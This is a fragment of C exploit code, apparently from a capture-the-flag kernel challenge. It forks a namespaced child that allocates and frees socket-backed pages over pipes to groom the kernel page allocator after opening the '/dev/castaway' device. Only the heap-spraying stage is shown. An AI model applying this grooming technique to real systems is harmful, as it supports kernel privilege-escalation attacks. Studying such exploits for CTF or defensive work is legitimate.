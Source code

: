 ```c

void spraypage_send(enum spraypage_cmd cmd, int idx) {
    struct ipc_req_t req;
    req.cmd = cmd;
    req.idx = idx;
    write(sprayfd_child[1], &req, sizeof(req));
    read(sprayfd_parent[0], &req, sizeof(req));  // just for synchornization
}

void spray_pages() {
    struct ipc_req_t req;
    do {
        read(sprayfd_child[0], &req, sizeof(req));
        switch (req.cmd) {
            case ALLOC:
                socketfds[req.idx] = alloc_pages_via_sock(SIZE, req.idx);
                break;
            case FREE:
                close(socketfds[req.idx]);
                break;
            case QUIT:
                break;
            default:
                assert(0);
        }
        write(sprayfd_parent[1], &req, sizeof(req));
    }
    while (req.cmd != QUIT);
}

int main() {

    bind_cpu(0);
    int fd = open("/dev/castaway", O_RDWR);
    if (fd < 0) {
        printf("Error opening device\n");
        return 1;
    }

    pipe(sprayfd_child);
    pipe(sprayfd_parent);

    if (!fork()) {
        unshare_setup(getuid(), getgid());
        spray_pages();
    }

    for (int i = 0; i < INITIAL_PAGE_SPRAY; i++) {
        spraypage_send(ALLOC, i);
    }
}


```
